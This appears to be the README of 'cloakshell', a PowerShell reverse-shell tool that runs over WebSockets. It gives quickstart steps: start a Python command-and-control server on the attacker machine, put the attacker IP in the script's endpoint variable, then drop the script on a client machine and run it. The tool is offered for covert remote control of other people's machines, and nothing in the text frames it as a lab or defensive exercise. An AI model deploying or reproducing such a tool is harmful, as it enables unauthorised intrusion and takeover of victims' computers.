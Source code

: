 # cloakshell
Powershell reverse shell via WebSockets

#### Quickstart

On the attacker machine install the dependencies and run the command and control server.

```
pip install -r requirements.txt
python control.py
```

In cloakshell.ps1, change the IP address in the `$endpoint` variable to your attacker's IP address. Now drop it on the client and execute it.

```
.\cloakshell.ps1
```

That's it! You have a (somewhat) functional reverse shell over websockets.
